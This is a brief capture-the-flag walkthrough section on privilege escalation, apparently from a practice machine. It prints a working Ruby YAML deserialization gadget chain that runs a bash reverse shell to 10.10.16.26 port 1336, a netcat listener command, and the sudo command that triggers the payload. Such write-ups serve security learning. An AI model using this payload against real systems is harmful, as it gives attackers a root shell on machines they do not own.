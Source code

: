 ![](./IMG/20.png)

## Privilege Escalation

- So I create my own dependencies file with reverse shell as follow: 
```
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: "bash -c 'bash -i >& /dev/tcp/10.10.16.26/1336 0>&1'"
          method_id: :resolve 
```

![](./IMG/21.png)
- Second, create anther reverse shell by nc
```
nc -nlvp 1336
```
- Then using the following command to execute it.
```
sudo ruby /opt/update_dependencies.rb
```
